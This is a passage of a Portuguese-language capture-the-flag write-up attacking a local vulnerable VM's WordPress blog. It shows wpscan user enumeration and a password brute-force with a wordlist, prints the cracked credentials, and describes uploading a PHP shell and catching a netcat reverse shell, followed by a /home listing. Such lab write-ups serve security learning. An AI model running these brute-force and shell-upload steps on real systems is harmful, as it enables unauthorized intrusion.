 ```
wpscan --url https://192.168.56.107:12380/blogblog/ -e --api-token <token> --disable-tls-checks
```
Eu sempre executo com o --api-token (serviço de busca automática de vulnerabilidades do wpvulndb) e por ser uma box antiga, ele trouxe 1001 'problemas' com o CMS. O que me interessa é algo mais incisivo (algum RCE ou SQL Injection) o que infelizmente não tem (ou não vi). Massss, ele encontra uma lista de usuários, vou tentar uma força-bruta tentando um login na aplicação:

```
wpscan --url https://192.168.56.107:12380/blogblog/ -e -U wordpress_users -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt --disable-tls-checks
```

Depois de um tempo (com algumas wordlists diferentes):

```
 | Username: garry, Password: football
 | Username: scott, Password: cookie
 | Username: tim, Password: thumb
 | Username: harry, Password: monkey
| Username: john, Password: incorrect
```

Faço o login de um por um e temos um administrador, o senhor `john`.

8) Em CTF's já peguei alguns Wordpress, e quando já tenho a autenticação gosto de usar o exploit `unix/webapp/wp_admin_shell_upload` via metasploit (ele automatiza todo o processo, loga, submete um plugin malicioso e retorna um shell) porém não deu certo :(, vou atrás de entender o que está acontecendo e essa instalação pede algumas credenciais para fazer a instalação do plugin (via FTP). Bom, mas não tem tudo está perdido, sei que o Wordpress mantém no wp-contents esses conteúdos que se faz upload, vou até 'Media -> Library' e para a minha surpresa está tudo lá.

```
https://192.168.56.107:12380/blogblog/wp-content/uploads/wordpress-plugin-shell.php
```

Esse foi um dos 'plugins' que tentei instalar e não consegui, ele estava no diretório dando sopa.

9) Subo um listener netcat e executo o php, logo depois tenho shell no servidor, vou atrás do diretório /home:

```
drwxr-xr-x 2 AParnell   AParnell   4096 Jun  5  2016 AParnell
drwxr-xr-x 2 CCeaser    CCeaser    4096 Jun  5  2016 CCeaser
drwxr-xr-x 2 CJoo       CJoo       4096 Jun  5  2016 CJoo
drwxr-xr-x 2 DSwanger   DSwanger   4096 Jun  5  2016 DSwanger
drwxr-xr-x 2 Drew       Drew       4096 Jun  5  2016 Drew
drwxr-xr-x 2 ETollefson ETollefson 4096 Jun  5  2016 ETollefson
drwxr-xr-x 2 Eeth       Eeth       4096 Jun  5  2016 Eeth
drwxr-xr-x 2 IChadwick  IChadwick  4096 Jun  5  2016 IChadwick
drwxr-xr-x 2 JBare      JBare      4096 Jun  5  2016 JBare
drwxr-xr-x 2 JKanode    JKanode    4096 Jun  5  2016 JKanode
drwxr-xr-x 2 JLipps     JLipps     4096 Jun  5  2016 JLipps
drwxr-xr-x 2 LSolum     LSolum     4096 Jun  5  2016 LSolum
drwxr-xr-x 2 LSolum2    LSolum2    4096 Jun  5  2016 LSolum2
drwxr-xr-x 2 MBassin    MBassin    4096 Jun  5  2016 MBassin
drwxr-xr-x 2 MFrei      MFrei      4096 Jun  5  2016 MFrei
drwxr-xr-x 2 NATHAN     NATHAN     4096 Jun  5  2016 NATHAN
drwxr-xr-x 2 RNunemaker RNunemaker 4096 Jun  5  2016 RNunemaker
drwxr-xr-x 2 SHAY       SHAY       4096 Jun  5  2016 SHAY
drwxr-xr-x 2 SHayslett  SHayslett  4096 Jun  5  2016 SHayslett
drwxr-xr-x 2 SStroud    SStroud    4096 Jun  5  2016 SStroud
drwxr-xr-x 2 Sam        Sam        4096 Jun  5  2016 Sam
drwxr-xr-x 2 Taylor     Taylor     4096 Jun  5  2016 Taylor
drwxr-xr-x 2 elly       elly       4096 Jun  5  2016 elly
drwxr-xr-x 2 jamie      jamie      4096 Jun  5  2016 jamie
drwxr-xr-x 2 jess       jess       4096 Jun  5  2016 jess
drwxr-xr-x 2 kai        kai        4096 Jun  5  2016 kai
drwxr-xr-x 2 mel        mel        4096 Jun  5  2016 mel
```